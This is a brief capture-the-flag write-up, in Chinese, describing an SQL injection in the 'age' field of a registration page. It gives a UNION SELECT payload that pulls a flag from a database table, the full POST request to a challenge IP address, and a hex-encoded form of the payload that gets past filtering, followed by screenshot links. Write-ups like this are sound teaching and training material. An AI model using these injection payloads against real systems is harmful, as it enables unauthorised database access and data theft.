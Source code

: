 # writeup

### 注册页面age参数存在sql注入：

```
payload：1 and 1=2 union select 1,(select flag from flag),3,4#

POST:

http://39.107.32.29:10000/index.php?func=register


username=admin31233&age=1 and 1=2 union select 1,(select flag from flag),3,4#&password=admin1230


payload经过hex编码之后：


username=admin31423&age=3120616e6420313d3220756e696f6e2073656c65637420312c2873656c65637420666c61672066726f6d20666c6167292c332c3423&password=admin1230

```
![](./images/1.jpg)
![](./images/2.jpg)
![](./images/3.png)
![](./images/4.png)
![](./images/5.png)
![](./images/6.png)
![](./images/7.png)
![](./images/8.png)
![](./images/9.png)




